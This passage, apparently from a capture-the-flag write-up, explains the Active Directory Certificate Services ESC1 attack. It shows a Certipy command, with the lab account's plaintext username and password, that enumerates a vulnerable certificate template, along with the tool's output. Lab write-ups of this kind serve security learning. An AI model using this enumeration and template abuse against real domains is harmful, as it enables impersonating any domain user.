 Domain users can perform the ESC1 attack by using `UserAuthentication` template. This basically means that we can request a certificate that can be used for authentication and we have permission to specify a SAN (Subject Alternative Name) in our CSR (Certificate Signing Request), allowing us to authenticate as any user in the domain.

### **Certipy**

Certipy is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS). We can download it from its [GitHub repository](https://github.com/ly4k/Certipy).

#### **Finding Misconfigured Templates**

We can run the following command to enumerate misconfigured templates.

```bash
certipy-ad find -vulnerable -u "ryan.cooper" -p "NuclearMosquito3" -dc-ip 10.10.11.202 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
```